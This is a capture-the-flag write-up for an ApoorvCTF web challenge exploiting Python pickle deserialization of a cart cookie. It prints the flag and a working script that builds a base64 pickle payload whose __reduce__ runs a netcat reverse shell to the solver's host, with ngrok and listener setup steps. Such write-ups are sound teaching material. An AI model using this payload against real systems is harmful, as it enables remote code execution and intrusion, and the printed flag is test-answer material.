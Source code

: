 A serial killer has decided to sell all his victims' possessions on this website. Hack it before he sells any of the items!

300pts(hard)\
ApoorvCTF{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}\
hint cost: 50pts\
hint: try to find where the cart items of the user are stored\
web exploiation\
#web

Writeup:
Challenge name and description suggests that this a deserialization vulnerability involving the pickle module from python.
Upong accessing and using the site we see that cart items are somehow stored in a cookie in a serialized base64 encoded form.
When serialized objects are deserialized they are initialized and instantiated using some pre defined methods before being used later on in the code.
One such method is the __reduce__() method which we can alter for our purpose.
So we can create an object with a malicious __reduce__() method which would essentially be a reverse shell payload.
Here, we are going to use a netcat reverse shell payload.

Script to generate our malicious serialized cart value:

import pickle, base64, os

class payload(object):
    def __reduce__(self):
        return (os.system, (f'nc -nv <your ip> <port> -e /bin/bash',))

deserialpayload = payload()
serialpayload = pickle.dumps(deserialpayload)
print(base64.b64encode(serialpayload))

Now to provide our ip, we need to use port forwarding using ngrok since we are connected to the internet using a router and only the router's ip is visible to the internet.
First setup a netcat listener using nc -nvlp 1234
Now, after installing and setting up ngrok, execute ngrok tcp 1234 which would basically forward our local tcp port 1234 to an external port directly accessible from the internet.
Note down the domain name of the external address and the port given by ngrok for our use.
Now, execute ping <domain name> to find the ip address of that domain name. (You can use any other method to find the domain name)
Now put this ip address in place of "<your ip>" and the port we got from ngrok in place of <port> in the python script.
Execute it to get the serialized cart value and set it as your cookie.
Now click on Cart on the website and voila you have a shell!
